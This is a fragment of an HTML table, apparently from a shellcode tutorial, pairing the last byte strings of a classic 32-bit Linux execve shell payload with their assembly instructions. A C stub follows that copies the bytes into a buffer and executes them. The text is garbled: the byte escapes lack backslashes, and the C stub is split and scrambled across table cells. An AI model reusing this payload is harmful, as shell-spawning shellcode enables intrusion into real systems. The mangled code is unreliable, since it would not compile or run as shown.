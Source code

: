    <td width="135">Line 8: movl</td>

   <td width="183">%esp,%ecx</td>

   <td width="114">*/</td>

  </tr>

  <tr>

   <td width="167">“x99”</td>

   <td width="24">/*</td>

   <td width="135">Line 9: cdq</td>

   <td width="183"> </td>

   <td width="114">*/</td>

  </tr>

  <tr>

   <td width="167">“xb0x0b”</td>

   <td width="24">/*</td>

   <td width="135">Line 10: movb</td>

   <td width="183">$0x0b,%al</td>

   <td width="114">*/</td>

  </tr>

  <tr>

   <td width="167">“xcdx80”</td>

   <td width="24">/*</td>

   <td width="135">Line 11: int</td>

   <td width="183">$0x80</td>

   <td width="114">*/</td>

  </tr>

  <tr>

   <td colspan="2" width="191">;int main(int argc, char{ char buf[sizeof(code) strcpy(buf, code); ((void(*)( ))buf)( );}</td>

   <td width="135">**argv)];</td>

   <td width="183"> </td>

   <td width="114"> </td>

  </tr>

 </tbody>
